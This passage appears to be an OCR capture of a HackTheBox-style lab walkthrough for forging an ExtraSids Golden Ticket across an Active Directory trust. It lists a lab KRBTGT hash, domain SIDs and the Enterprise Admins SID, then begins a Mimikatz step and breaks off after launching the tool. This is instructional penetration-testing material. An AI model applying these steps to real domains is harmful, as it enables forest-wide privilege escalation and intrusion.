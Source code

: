 * The KRBTGT hash for the child domain: `9d765b482771505cbe97411065964d5f`
* The SID for the child domain: `S-1-5-21-2806153819-209893948-922872689`
* The name of a target user in the child domain (does not need to exist to create our Golden Ticket!): We'll choose a fake user: `hacker`
* The FQDN of the child domain: `LOGISTICS.INLANEFREIGHT.LOCAL`
* The SID of the Enterprise Admins group of the root domain: `S-1-5-21-3842939050-3880317879-2865463114-519`

Currently we donot have access

* `PS C:\htb> ls \\academy-ea-dc01.inlanefreight.local\c$`

#### **Creating a Golden Ticket with Mimikatz**

```powershell
PS C:\htb> mimikatz.exe

